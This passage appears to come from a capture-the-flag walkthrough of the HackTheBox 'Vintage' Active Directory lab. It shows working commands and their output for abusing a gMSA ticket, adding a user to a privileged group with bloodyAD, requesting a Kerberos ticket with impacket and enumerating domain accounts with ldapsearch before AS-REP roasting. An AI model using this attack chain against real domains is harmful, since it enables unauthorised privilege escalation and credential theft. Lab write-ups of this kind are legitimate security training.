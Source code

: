 And we export it again

```bash
export KRB5CCNAME=GMSA01\$.ccache
```

Then we add **P.Rosa** to **SERVICEMANAGERS**, use the credentials from **GMSA** and then generate our own credentials as follows

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
```

```bash
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS
```

With this command we change the password
```bash
impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb
```

```bash
❯ impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in P.Rosa.ccache
```

And we export again for Kerberos to use

```bash
export KRB5CCNAME=P.Rosa.ccache 
```

We are trying to use this ticket to list the users that do not need Kerberos realm authentication, we first generate a list of usernames of the users in the domain with the following command

```bash
ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep "sAMAccountName:" | cut -d " " -f 2 > usernames.txt   
```

```bash
❯ ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep "sAMAccountName:" | cut -d " " -f 2 > usernames.txt
❯ cat usernames.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: usernames.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Administrator
   2   │ Guest
   3   │ DC01$
   4   │ krbtgt
   5   │ gMSA01$
   6   │ FS01$
   7   │ M.Rossi
   8   │ R.Verdi
   9   │ L.Bianchi
  10   │ G.Viola
  11   │ C.Neri
  12   │ P.Rosa
  13   │ svc_sql
  14   │ svc_ldap
```